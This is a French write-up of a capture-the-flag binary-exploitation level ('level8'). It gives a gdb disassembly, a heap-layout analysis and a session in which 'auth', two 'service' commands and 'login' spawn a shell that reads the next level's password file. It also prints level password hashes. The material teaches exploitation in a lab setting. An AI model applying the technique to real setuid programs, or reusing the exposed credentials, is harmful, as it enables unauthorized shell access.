 On se connecte sur le level8, ou se trouve un **binaire** <code>level8</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
gdb level8  -q
Reading symbols from /home/user/level8/level8...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp
   0x08048567 <+3>:     push   %edi
   0x08048568 <+4>:     push   %esi
   0x08048569 <+5>:     and    $0xfffffff0,%esp
   0x0804856c <+8>:     sub    $0xa0,%esp
   0x08048572 <+14>:    jmp    0x8048575 <main+17>
   0x08048574 <+16>:    nop
   0x08048575 <+17>:    mov    0x8049ab0,%ecx
   0x0804857b <+23>:    mov    0x8049aac,%edx
   0x08048581 <+29>:    mov    $0x8048810,%eax
   0x08048586 <+34>:    mov    %ecx,0x8(%esp)
   0x0804858a <+38>:    mov    %edx,0x4(%esp)
   0x0804858e <+42>:    mov    %eax,(%esp)
   0x08048591 <+45>:    call   0x8048410 <printf@plt>
   0x08048596 <+50>:    mov    0x8049a80,%eax
   0x0804859b <+55>:    mov    %eax,0x8(%esp)
   0x0804859f <+59>:    movl   $0x80,0x4(%esp)
   0x080485a7 <+67>:    lea    0x20(%esp),%eax
   0x080485ab <+71>:    mov    %eax,(%esp)
   0x080485ae <+74>:    call   0x8048440 <fgets@plt>
   0x080485b3 <+79>:    test   %eax,%eax
   0x080485b5 <+81>:    je     0x804872c <main+456>
   0x080485bb <+87>:    lea    0x20(%esp),%eax
   0x080485bf <+91>:    mov    %eax,%edx
   0x080485c1 <+93>:    mov    $0x8048819,%eax
   0x080485c6 <+98>:    mov    $0x5,%ecx
   0x080485cb <+103>:   mov    %edx,%esi
   0x080485cd <+105>:   mov    %eax,%edi
   0x080485cf <+107>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x080485d1 <+109>:   seta   %dl
   0x080485d4 <+112>:   setb   %al
   0x080485d7 <+115>:   mov    %edx,%ecx
   0x080485d9 <+117>:   sub    %al,%cl
   0x080485db <+119>:   mov    %ecx,%eax
   0x080485dd <+121>:   movsbl %al,%eax
   0x080485e0 <+124>:   test   %eax,%eax
   0x080485e2 <+126>:   jne    0x8048642 <main+222>
   0x080485e4 <+128>:   movl   $0x4,(%esp)
   0x080485eb <+135>:   call   0x8048470 <malloc@plt>
   0x080485f0 <+140>:   mov    %eax,0x8049aac
   0x080485f5 <+145>:   mov    0x8049aac,%eax
   0x080485fa <+150>:   movl   $0x0,(%eax)
   0x08048600 <+156>:   lea    0x20(%esp),%eax
   0x08048604 <+160>:   add    $0x5,%eax
   0x08048607 <+163>:   movl   $0xffffffff,0x1c(%esp)
   0x0804860f <+171>:   mov    %eax,%edx
   0x08048611 <+173>:   mov    $0x0,%eax
   0x08048616 <+178>:   mov    0x1c(%esp),%ecx
   0x0804861a <+182>:   mov    %edx,%edi
   0x0804861c <+184>:   repnz scas %es:(%edi),%al
   0x0804861e <+186>:   mov    %ecx,%eax
   0x08048620 <+188>:   not    %eax
   0x08048622 <+190>:   sub    $0x1,%eax
   0x08048625 <+193>:   cmp    $0x1e,%eax
   0x08048628 <+196>:   ja     0x8048642 <main+222>
   0x0804862a <+198>:   lea    0x20(%esp),%eax
   0x0804862e <+202>:   lea    0x5(%eax),%edx
   0x08048631 <+205>:   mov    0x8049aac,%eax
   0x08048636 <+210>:   mov    %edx,0x4(%esp)
   0x0804863a <+214>:   mov    %eax,(%esp)
   0x0804863d <+217>:   call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:   lea    0x20(%esp),%eax
   0x08048646 <+226>:   mov    %eax,%edx
   0x08048648 <+228>:   mov    $0x804881f,%eax
   0x0804864d <+233>:   mov    $0x5,%ecx
   0x08048652 <+238>:   mov    %edx,%esi
   0x08048654 <+240>:   mov    %eax,%edi
   0x08048656 <+242>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x08048658 <+244>:   seta   %dl
   0x0804865b <+247>:   setb   %al
   0x0804865e <+250>:   mov    %edx,%ecx
   0x08048660 <+252>:   sub    %al,%cl
   0x08048662 <+254>:   mov    %ecx,%eax
   0x08048664 <+256>:   movsbl %al,%eax
   0x08048667 <+259>:   test   %eax,%eax
   0x08048669 <+261>:   jne    0x8048678 <main+276>
   0x0804866b <+263>:   mov    0x8049aac,%eax
   0x08048670 <+268>:   mov    %eax,(%esp)
   0x08048673 <+271>:   call   0x8048420 <free@plt>
   0x08048678 <+276>:   lea    0x20(%esp),%eax
   0x0804867c <+280>:   mov    %eax,%edx
   0x0804867e <+282>:   mov    $0x8048825,%eax
   0x08048683 <+287>:   mov    $0x6,%ecx
   0x08048688 <+292>:   mov    %edx,%esi
   0x0804868a <+294>:   mov    %eax,%edi
   0x0804868c <+296>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x0804868e <+298>:   seta   %dl
   0x08048691 <+301>:   setb   %al
   0x08048694 <+304>:   mov    %edx,%ecx
   0x08048696 <+306>:   sub    %al,%cl
   0x08048698 <+308>:   mov    %ecx,%eax
   0x0804869a <+310>:   movsbl %al,%eax
   0x0804869d <+313>:   test   %eax,%eax
   0x0804869f <+315>:   jne    0x80486b5 <main+337>
   0x080486a1 <+317>:   lea    0x20(%esp),%eax
   0x080486a5 <+321>:   add    $0x7,%eax
   0x080486a8 <+324>:   mov    %eax,(%esp)
   0x080486ab <+327>:   call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:   mov    %eax,0x8049ab0
   0x080486b5 <+337>:   lea    0x20(%esp),%eax
   0x080486b9 <+341>:   mov    %eax,%edx
   0x080486bb <+343>:   mov    $0x804882d,%eax
   0x080486c0 <+348>:   mov    $0x5,%ecx
   0x080486c5 <+353>:   mov    %edx,%esi
   0x080486c7 <+355>:   mov    %eax,%edi
   0x080486c9 <+357>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x080486cb <+359>:   seta   %dl
   0x080486ce <+362>:   setb   %al
   0x080486d1 <+365>:   mov    %edx,%ecx
   0x080486d3 <+367>:   sub    %al,%cl
   0x080486d5 <+369>:   mov    %ecx,%eax
   0x080486d7 <+371>:   movsbl %al,%eax
   0x080486da <+374>:   test   %eax,%eax
   0x080486dc <+376>:   jne    0x8048574 <main+16>
   0x080486e2 <+382>:   mov    0x8049aac,%eax
   0x080486e7 <+387>:   mov    0x20(%eax),%eax
   0x080486ea <+390>:   test   %eax,%eax
   0x080486ec <+392>:   je     0x80486ff <main+411>
   0x080486ee <+394>:   movl   $0x8048833,(%esp)
   0x080486f5 <+401>:   call   0x8048480 <system@plt>
   0x080486fa <+406>:   jmp    0x8048574 <main+16>
   0x080486ff <+411>:   mov    0x8049aa0,%eax
   0x08048704 <+416>:   mov    %eax,%edx
   0x08048706 <+418>:   mov    $0x804883b,%eax
   0x0804870b <+423>:   mov    %edx,0xc(%esp)
   0x0804870f <+427>:   movl   $0xa,0x8(%esp)
   0x08048717 <+435>:   movl   $0x1,0x4(%esp)
   0x0804871f <+443>:   mov    %eax,(%esp)
   0x08048722 <+446>:   call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:   jmp    0x8048574 <main+16>
   0x0804872c <+456>:   nop
   0x0804872d <+457>:   mov    $0x0,%eax
   0x08048732 <+462>:   lea    -0x8(%ebp),%esp
   0x08048735 <+465>:   pop    %esi
   0x08048736 <+466>:   pop    %edi
   0x08048737 <+467>:   pop    %ebp
   0x08048738 <+468>:   ret
End of assembler dump.
```

Apres analyse du fichier (**source.c**), on se rend compte que le programme lance un **system("/bin/sh")** si le 32ème byte au dessus de notre global **auth** est alloué ou different de 0.

Pour allouer, nous pouvons utiliser **service** qui va faire un **strdup** + 7 (donc tous ce qui se trouve apres la string "service").

Donc il suffit de faire un **"auth "** puis d'allouer la bonne taille (ou plus), et de faire un **login**.

Donc ici 2 possibilités :
- Faire 2 fois service pour allouer 2 fois 16 bytes grâce au **strdup**
- Faire une seul fois service, mais faire un string suffisamment grande pour allouer au moins 31 bytes.
> Car **fgets** ajoute à la fin de la string un "\n" dans tous les cas

<pre></code>> ./level8
(nil), (nil)
> auth 
0x804a008, (nil)
> service
0x804a008, 0x804a018
> service
0x804a008, 0x804a028
> login
>cd ../level9 && cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
</code></pre>

For download :
<pre><code>scp -P4242 level8@IP:level8 .</code></pre>
> Password : 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9